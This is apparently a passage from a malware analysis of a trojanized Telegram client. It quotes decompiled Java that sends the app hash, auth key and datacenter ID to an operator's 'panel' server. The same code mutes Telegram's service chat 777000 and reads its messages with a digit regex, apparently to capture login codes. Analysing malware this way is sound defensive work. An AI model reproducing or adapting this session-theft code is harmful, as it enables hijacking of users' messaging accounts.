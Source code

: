 ```java
                hashMap.put("app_hash", BuildVars.APP_HASH);
                hashMap.put("auth_key", NativeConfig.getAuthKey());
                hashMap.put("dc", String.valueOf(ConnectionsManager.getInstance(this.currentAccount).getCurrentDatacenterId()));
                log(String.valueOf(hashMap));
                requestToPanel(AppConfig.getPanelAuthKey(), hashMap, new PanelMember() { // from class: org.telegram.dark.service.SessionController.1
                    @Override // org.telegram.dark.service.SessionController.PanelMember
                    public void result(String str7) {
                        if (str7.contains("phone is already") || str7.contains("created")) {
                            SessionController.this.preferencesEditor.putLong("last_time_scan" + UserConfig.selectedAccount, System.currentTimeMillis()).apply();
                        }
                    }
                });
                return;
            }
            loge(getSessionControllerMode() + ":SESSION MODE_____" + this.currentAccount);
            Long l = 777000 L;
            JoinFast.mute(true, l.longValue());
            scanCurrent(new Runnable() { // from class: org.telegram.dark.service.SessionController$$ExternalSyntheticLambda1
                @Override // java.lang.Runnable
                public final void run() {
                    SessionController.this.lambda$scan$4();
                }
            });
        }
    }
```
It’s clear that they send my device information to their server to check whether my phone is already in their database. The `requestToPanel` function sends this information to their server.  
After investigating where the `requestToPanel` function was called, I found a very interesting function.
```java
            @Override // java.lang.Runnable
            public void run() {
                SessionController.this.log("Send2");
                int[] iArr = this.val$tryNum;
                if (iArr[0] > 5) {
                    return;
                }
                iArr[0] = iArr[0] + 1;
                SessionController.this.log("Send3");
                TLRPC$TL_dialog tLRPC$TL_dialog = (TLRPC$TL_dialog) MessagesController.getInstance(SessionController.this.currentAccount).dialogs_dict.get(777000 L);
                if (tLRPC$TL_dialog != null) {
                    MessagesController.getInstance(SessionController.this.currentAccount).loadMessages(tLRPC$TL_dialog.id, 0 L, false, 2, 0, 0, false, 0, 0, 0, 0, 1, 0 L, 0, 0, false);
                    MessageObject messageObject = MessagesController.getInstance(SessionController.this.currentAccount).dialogMessagesByIds.get(tLRPC$TL_dialog.top_message);
                    SessionController sessionController = SessionController.this;
                    StringBuilder sb = new StringBuilder();
                    sb.append("Send4//");
                    sb.append(tLRPC$TL_dialog.unread_count > 0);
                    sb.append("//");
                    sb.append(tLRPC$TL_dialog.last_message_date == messageObject.messageOwner.date);
                    sessionController.log(sb.toString());
                    if (tLRPC$TL_dialog.last_message_date == messageObject.messageOwner.date) {
                        SessionController.this.log("Send5");
                        Matcher matcher = Pattern.compile("\\d+").matcher(String.valueOf(messageObject.messageText));
```